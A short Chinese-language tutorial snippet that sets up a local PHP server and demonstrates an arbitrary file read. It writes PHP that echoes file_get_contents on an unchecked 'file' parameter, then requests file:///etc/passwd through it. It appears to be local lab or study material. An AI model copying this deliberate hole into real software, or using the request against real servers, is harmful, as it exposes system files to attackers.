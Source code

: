   ![image-20211231175506662](img\php测试.png)

+ 准备好php的环境，使8000端口处于监听状态

  ```php
  php -S 127.0.0.1:8000
  ```

+ 编写php代码实现对任意文件的访问

  ```php
  <?php
  echo file_get_contents($_GET['file']);
  ?>
  ```

+ 在firefox中输入以下网址

  ```php
  http://127.0.0.1:8000/workspace/php/get.php?file=file:///etc/passwd
  ```
